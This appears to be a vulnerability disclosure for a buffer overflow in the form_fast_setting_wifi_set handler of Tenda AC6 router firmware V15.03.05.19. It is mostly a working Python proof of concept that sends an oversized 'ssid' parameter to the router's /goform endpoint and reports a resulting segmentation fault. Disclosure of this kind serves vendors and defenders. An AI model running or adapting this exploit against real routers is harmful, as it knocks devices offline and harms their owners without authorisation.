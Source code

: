 ## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the form_fast_setting_wifi_set function

A serious buffer overflow vulnerability exists in the `form_fast_setting_wifi_set` function of the Tenda AC6 router firmware version V15.03.05.19.  
An attacker can exploit improper bounds handling in the `strcpy` function within this code to overflow a fixed-size buffer. Successful exploitation allows triggering a Denial of Service (DoS) condition or crashing the target service, potentially leading to persistent device instability.

![](./picture/1.png)

### POC
```python
import requests

def create_payload():
	buffer_size = 0x1000
	payload = b"A" * buffer_size
	return payload

def send_payload(url, payload):
    params = {'ssid': payload}
    response = requests.get(url, params=params)
    
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    url = 'http://192.168.52.138/goform/fast_setting_wifi_set'
    payload = create_payload()
    send_payload(url, payload)

```


![](./picture/2.png)
![](./picture/3.png)
![](./picture/4.png)
![](./picture/5.png)

Achieved Result: Segmentation Fault
![](./picture/6.png)

















































